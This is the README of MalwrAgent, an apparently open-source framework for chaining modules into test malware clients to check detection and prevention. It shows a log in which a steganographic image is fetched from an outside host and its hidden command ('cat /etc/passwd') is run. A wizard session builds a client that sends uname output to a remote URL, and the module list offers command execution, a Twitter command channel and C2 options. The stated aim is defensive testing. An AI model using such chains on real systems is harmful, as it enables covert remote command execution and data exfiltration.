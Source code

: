      __   __  _______  ___      _     _  ______    _______  _______  _______  __    _  _______ 
    |  |_|  ||   _   ||   |    | | _ | ||    _ |  |   _   ||       ||       ||  |  | ||       |
    |       ||  |_|  ||   |    | || || ||   | ||  |  |_|  ||    ___||    ___||   |_| ||_     _|
    |       ||       ||   |    |       ||   |_||_ |       ||   | __ |   |___ |       |  |   |  
    |       ||       ||   |___ |       ||    __  ||       ||   ||  ||    ___||  _    |  |   |  
    | ||_|| ||   _   ||       ||   _   ||   |  | ||   _   ||   |_| ||   |___ | | |   |  |   |  
    |_|   |_||__| |__||_______||__| |__||___|  |_||__| |__||_______||_______||_|  |__|  |___|  

    -- .- .-.. .-- .-. .- --. . -. - 

[![Code Climate](https://codeclimate.com/github/michaelschratt/MalwrAgent/badges/gpa.svg)](https://codeclimate.com/github/michaelschratt/MalwrAgent) [![Codacy Badge](https://api.codacy.com/project/badge/Grade/ac34274f76e742f089e82684c2e50dee)](https://www.codacy.com/app/bl4ckw0rm/MalwrAgent?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=michaelschratt/MalwrAgent&amp;utm_campaign=Badge_Grade)

### About MalwrAgent

#### THIS PROJECT IS STILL IN ALPHA STATE

Hello Agent M! Welcome to the MalwrAgency. The MalwrAgent enables you to test your current detection & prevention capabilities in just a few simple steps. The idea is to offer a framework of different modules you can connect to make up a chain. For example, egress testing can be established by connecting multiple HTTP POST and HTTP GET requests. 

Threat actors tend to use more sophisticated techniques like steganography. This technique is not only applied during infiltration but also used for data exfiltration based on video or image steganography.
Following log output demonstrates the download of an image that contains a hidden string. This string is then used as an input argument for the Command module. Finally, `cat /etc/passwd` is executed. 

    bl4ckw0rm@einsteinium > python malwragent.py -l -c myChains/Stego.json --log 3
    INFO:root:client: Checking f_retrieve_image with parameters {u'url': u'http://mfs-enterprise.com/agency/stego.png'}
    INFO:root:client: Checking f_extract_text_from_image with parameters None
    INFO:root:client: Checking f_exec_system with parameters None
    Autopilot takes over in
       3
       2
       1
    INFO:root:myChains/Stego: Chain CLIENT running
    INFO:root:myChains/Stego: Running function f_retrieve_image from module Web with input <None> and args <{u'url': u'http://mfs-enterprise.com/agency/stego.png'}>
    INFO:root:myChains/Stego: Running Transportation module malwragent.packages.modules.web.Web - Args: {'settings': {u'function': u'f_retrieve_image', 'input': None, u'args': {u'url': u'http://mfs-enterprise.com/agency/stego.png'}}}
    INFO:requests.packages.urllib3.connectionpool:Starting new HTTP connection (1): mfs-enterprise.com
    INFO:requests.packages.urllib3.connectionpool:Starting new HTTP connection (1): www.mfs-enterprise.com
    INFO:root:myChains/Stego: Running function f_extract_text_from_image from module Stego with input <<cStringIO.StringI object at 0x10be7fad0>> and args <None>
    INFO:root:myChains/Stego: Running Transformation module malwragent.packages.modules.stego.Stego - Args: {'settings': {u'function': u'f_extract_text_from_image', 'input': <cStringIO.StringI object at 0x10be7fad0>, u'args': None}}
    INFO:root:myChains/Stego: Running function f_exec_system from module Command with input <cat /etc/passwd> and args <None>
    INFO:root:myChains/Stego: Running Post module malwragent.packages.modules.command.Command - Args: {'settings': {u'function': u'f_exec_system', 'input': 'cat /etc/passwd', u'args': None}}
    INFO:root:myChains/Stego: Chain CLIENT finished
    ^C
    Bye, Bye

Just as one likes, you could use any other module to invoke an action on the previous output. And so on ... But in the end, you should have an eye at your detection & prevention products, and develop new defensive strategies. 

### Get started

    bl4ckw0rm@einsteinium > python malwragent.py
    usage: malwragent.py [-h] [-l] [-w] [-c CONFIGFILE] [-i INTERVAL]
                         [--log {1,2,3,4}] [-V]
    
    optional arguments:
      -h, --help            show this help message and exit
      -l, --load            load and run chain from a configuration file.
      -w, --wizard          create and save a chain to configuration file
      -c CONFIGFILE, --configfile CONFIGFILE
                            configuration file name, default: config.json
      -i INTERVAL, --interval INTERVAL
                            interval for periodic chain execution, default: 10
                            seconds
      --log {1,2,3,4}       increase logging output verbosity
      -V, --version         show program's version number and exit
    
You can use the wizard to create a new client. A client consists of a chain of modules. The chain is stored in JSON format.

    bl4ckw0rm@einsteinium > python malwragent.py -w -c myChains/test             
    #   __   __  _______  ___      _     _  ______    _______  _______  _______  __    _  _______ 
    #  |  |_|  ||   _   ||   |    | | _ | ||    _ |  |   _   ||       ||       ||  |  | ||       |
    #  |       ||  |_|  ||   |    | || || ||   | ||  |  |_|  ||    ___||    ___||   |_| ||_     _|
    #  |       ||       ||   |    |       ||   |_||_ |       ||   | __ |   |___ |       |  |   |  
    #  |       ||       ||   |___ |       ||    __  ||       ||   ||  ||    ___||  _    |  |   |  
    #  | ||_|| ||   _   ||       ||   _   ||   |  | ||   _   ||   |_| ||   |___ | | |   |  |   |  
    #  |_|   |_||__| |__||_______||__| |__||___|  |_||__| |__||_______||_______||_|  |__|  |___|  
    #
    #   -- .- .-.. .-- .-. .- --. . -. - 
    #
    #  Hello Agent M! Welcome to the MalwrAgency. Use our MalwrAgent to create your 
    #  highly flexible and easy to use Malwr. Please go ahead ...
    #
    #  Do you want your client to register with C2-Server? (Y|N) \> n
    #  Choose from our list of modules. What do you want the client to do?
    #
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> m
    
    function                         type            module         choice
    -------------------------------  --------------  -----------  --------
    f_exec_system                    Post            Command             0
    f_base64_decode                  Transformation  Crypto              1
    f_base64_encode                  Transformation  Crypto              2
    f_md5                            Transformation  Crypto              3
    f_sha1                           Transformation  Crypto              4
    f_sha256                         Transformation  Crypto              5
    f_get_platform                   Post            Enumeration         6
    f_get_platform_machine           Post            Enumeration         7
    f_get_platform_processor         Post            Enumeration         8
    f_get_platform_system            Post            Enumeration         9
    f_get_platform_uname             Post            Enumeration        10
    f_get_platform_version           Post            Enumeration        11
    f_extract_text_from_image        Transformation  Stego              12
    f_grab_cmd_from_twitter_profile  Transportation  Twitter            13
    f_http_get                       Transportation  Web                14
    f_http_post                      Transportation  Web                15
    f_retrieve_image                 Transportation  Web                16
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> 
    
    Adding function f_get_platform_uname from module Enumeration done
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> 14
    
    Please provide the following arguments: url
    
    # +[url] \> http://mfs-enterprise.com/agency/?info=
    
    Adding function f_http_get from module Web done
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> n
    #
    #  Do you want to review your chain? (Y|N) \> y
    
    function              type            module       chain    arguments
    --------------------  --------------  -----------  -------  --------------------------------------------------
    f_get_platform_uname  Post            Enumeration  CLIENT
    f_http_get            Transportation  Web          CLIENT   {'url': 'http://mfs-enterprise.com/agency/?info='}
    
    #  Do you want to save the chain as myChains/test.json? (Y|N) \> y
    
    See you then. Use 'malwragent.py -l -c myChains/test.json' to run your client.

### Write your own modules

TBD

### Support

Just drop me a line. Please, use contact information from below.

### Supported Operating Systems

Linux, macOS

### Contribute

Feel free to browse through open issues and help where you can.

### Contact Information

Name: Michael Schratt

Twitter: [@bl4ckw0rm](https://twitter.com/bl4ckw0rm)

Email: github@mfs-enterprise.com

### Licence

Attribution-NoDerivatives 4.0 International (CC BY-ND 4.0)

Visit [https://creativecommons.org/licenses/by-nd/4.0/](https://creativecommons.org/licenses/by-nd/4.0/) for further information

#### Disclaimer

All the information provided on this site are for educational purposes only. The site or the authors are not responsible for any misuse. Do not use the information to write malicious software. Use the information to expand knowledge and improve current or future detection & prevention technology. Use at your own risk. Breaking into computer systems is illegal.
